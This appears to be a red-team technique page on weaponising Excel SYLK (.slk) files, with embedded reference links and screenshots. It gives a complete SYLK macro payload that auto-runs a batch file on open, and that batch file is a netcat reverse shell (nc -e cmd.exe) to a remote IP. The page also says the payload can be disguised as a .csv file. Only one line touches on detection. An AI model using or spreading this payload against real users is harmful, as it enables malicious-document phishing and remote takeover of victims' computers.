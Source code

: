 # ⭕ .SLK Excel

{% embed url="https://www.avanan.com/blog/sylkin-attack-bypassing-microsoft-365-security-risking-users" %}

{% embed url="https://youtu.be/xY2DIRfqNvA" %}

{% embed url="http://www.irongeek.com/i.php?page=videos%2Fderbycon8%2Ftrack-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen" %}



Create an new text file, put the the below code and save it as .slk file:

{% code title="demo.slk" %}
```
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
{% endcode %}

![](<../../.gitbook/assets/image (52).png>)

Note that the shell.cmd refers to a simple nc reverse shell batch file:

{% code title="c:\shell.cmd" %}
```
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode %}

Once the macro warning is dismissed, the reverse shell pops as expected:

![](<../../.gitbook/assets/image (11) (1).png>)

Since the file is actually a plain text file, detecting/triaging malicious intents are made easier.

Note that the payload file could be saved as a .csv - note the additional warning though:

![](<../../.gitbook/assets/image (34).png>)
